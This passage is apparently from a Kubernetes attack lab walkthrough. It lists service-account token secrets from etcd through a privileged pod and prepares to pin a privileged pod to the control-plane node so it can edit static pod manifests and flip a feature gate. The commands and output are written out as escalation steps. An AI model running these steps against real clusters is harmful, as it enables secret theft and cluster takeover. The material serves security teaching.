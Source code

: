7. Etcd contains a lot of interesting information about the cluster, not least of which is secrets. List them out with
   `kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets`

   In Kubernetes 1.23 or older, you would see a long list like this:
   ```shell
   $ kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets
   /registry/secrets/default/default-token-rwr67
   /registry/secrets/default/webadmin-token-r9h69
   /registry/secrets/ingress-nginx/default-token-rmt2h
   /registry/secrets/ingress-nginx/ingress-nginx-admission
   /registry/secrets/ingress-nginx/ingress-nginx-admission-token-s5rql
   /registry/secrets/ingress-nginx/ingress-nginx-token-68htr
   /registry/secrets/kube-node-lease/default-token-dfc9c
   /registry/secrets/kube-public/default-token-m8zph
   /registry/secrets/kube-system/attachdetach-controller-token-wx7k9
   /registry/secrets/kube-system/bootstrap-signer-token-zfksz
   /registry/secrets/kube-system/bootstrap-token-abcdef
   /registry/secrets/kube-system/calico-kube-controllers-token-cjntm
   /registry/secrets/kube-system/calico-node-token-rfps8
   /registry/secrets/kube-system/certificate-controller-token-krhs2
   /registry/secrets/kube-system/clusterrole-aggregation-controller-token-fjkn5
   ...
   ```

   ... and the last row above (`clusterrole-aggregation-controller-token-*`) is a role which rights we can use. Unfortunately,
   (for us), this demo is running a newer version and in 1.24 a feature gate was turned on by default that stops creating Secret objects for
   service account tokens so the list we are seeing is more like this:
   ```shell
   $ kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets
   /registry/secrets/ingress-nginx/ingress-nginx-admission
   /registry/secrets/kube-system/bootstrap-token-abcdef
   ```
   
8. You will note that I said that is a feature gate, and the nice thing (for us) about gates is they can be toggled. As you saw above, the
   `etcdclient` pod was able to be started on the `kind-control-plane` node.  We did this in order to mount the credentials needed which
   exist on the filesystem of that host. Conveniently, that host also contains static pod configurations for the Kubernetes control plane processes so we simply need to modify that gate in those files.
   First, lets redeploy our `nonroot_priv` pod onto that node by editing the `demo_yamls/nonroot_priv.yaml` file to add `nodeName: kind-control-plane` to it's spec.
   Open the file in your editor and add that field somewhere under the `spec:` section
   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
   name: nonroot-priv
   spec:
      nodeName: kind-control-plane
   ...
   ```
   Next, we will delete the old pod and redeploy this one, checking to make sure it got provisioned on the right node:
   ```shell
   $ kubectl delete -f demo_yamls/nonroot_priv.yaml
   pod "nonroot-priv" deleted
   $ kubectl apply -f demo_yamls/nonroot_priv.yaml
   pod/nonroot-priv created
   $ kubectl get pod -o wide
   NAME                        READY   STATUS    RESTARTS   AGE     IP               NODE                 NOMINATED NODE   READINESS GATES
   etcdclient                  1/1     Running   0          37m     172.19.0.3       kind-control-plane   <none>           <none>
   ```